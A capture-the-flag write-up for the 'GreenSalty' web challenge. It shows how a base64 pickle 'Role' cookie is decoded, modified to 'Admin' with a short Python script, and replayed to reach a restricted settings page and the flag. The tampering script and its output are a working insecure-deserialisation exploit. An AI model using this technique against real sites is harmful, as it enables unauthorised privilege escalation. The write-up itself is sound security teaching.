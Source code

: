 # Web/GreenSalty

### Challenge

- Category: Web
- Author: iLoop
- Description: Some like this on their burger.... People are strange, just ask Pondus
- Site: greensalt.io.ept.gg

### Writeup by
- hag

---

## Site

When we go to `greensalt.io.ept.gg` we find a login page.

![](01.png)

After registering a new user with `a` as username and password, we can log in.

![](02.png)

We look around the site and find the settings page which we can't access.

![](03.png)


## Cookies and Session

Taking a look at the cookies in the developer tools we see the folling:

![](04.png)

The `Role`-cookie seems interesting. The cookie data looks like `base64` encoded data.

Let's decode it:

```bash
$ echo "gASVOAAAAAAAAACMA2FwcJSMCFVzZXJUeXBllJOUKYGUfZQojARyb2xllIwHRW5kVXNlcpSMBG5hbWWUjAFhlHViLg==" | base64 -d
��8�app�UserType���)��}�(�role��EndUser��name��a�ub.
```

We can see our `role` and `name` in there; `EndUser` and `a`,

This looks like some serialized data. Looking at the `server`-header we find `Werkzeug/2.0.1 Python/3.8.12`. After doing some research on serialization in Python and using the challenge description hint, I think the data has been serialized using `pickle`.

We most likely have an `Insecure Deserialization` vulnerability in this app.


## Python script (`app.py`)

By looking at the serialized data we can see that the username and role is serialized from a type looking something like this:

```python
class UserType(object):
	role = ""
	user = ""
```

Let's create a script and see if we can deserialize the `role`-cookie and modify it.

```python
import pickle
import base64

# UserType type that matches serialized data
class UserType(object):
	role = ""
	user = ""

# Decode base64 data in cookie
cookie_role = "gASVOAAAAAAAAACMA2FwcJSMCFVzZXJUeXBllJOUKYGUfZQojARyb2xllIwHRW5kVXNlcpSMBG5hbWWUjAFhlHViLg=="
b = base64.b64decode(cookie_role)

# Deserialize using pickle
pd = pickle.loads(b)
print(pd)

# Change role to Admin
pd.role = "Admin"

# Re-serialize using pickle
pdd = pickle.dumps(pd)

# Output serialized data and base64 encoded serialized data
print(pdd)
print(base64.b64encode(pdd))
```

Now let's run it.

## Python script output

```bash
$ python3 app.py
<app.UserType object at 0x7ff44107e250>
b'\x80\x04\x956\x00\x00\x00\x00\x00\x00\x00\x8c\x03app\x94\x8c\x08UserType\x94\x93\x94)\x81\x94}\x94(\x8c\x04role\x94\x8c\x05Admin\x94\x8c\x04name\x94\x8c\x01a\x94ub.'
b'gASVNgAAAAAAAACMA2FwcJSMCFVzZXJUeXBllJOUKYGUfZQojARyb2xllIwFQWRtaW6UjARuYW1llIwBYZR1Yi4='
<app.UserType object at 0x7ff441197dc0>
b'\x80\x04\x956\x00\x00\x00\x00\x00\x00\x00\x8c\x03app\x94\x8c\x08UserType\x94\x93\x94)\x81\x94}\x94(\x8c\x04role\x94\x8c\x05Admin\x94\x8c\x04name\x94\x8c\x01a\x94ub.'
b'gASVNgAAAAAAAACMA2FwcJSMCFVzZXJUeXBllJOUKYGUfZQojARyb2xllIwFQWRtaW6UjARuYW1llIwBYZR1Yi4='
```

Let's take the new cookie data; `gASVNgAAAAAAAACMA2FwcJSMCFVzZXJUeXBllJOUKYGUfZQojARyb2xllIwFQWRtaW6UjARuYW1llIwBYZR1Yi4=` and replace the cookie in the developer tools.

![](05.png)

Now click `Settings` again. We can see the follwing at `https://greensalt.io.ept.gg/settings.html`:

![](06.png)

## Flag

`EPT{Plant1ng_Gr33n_Th1ngs}`
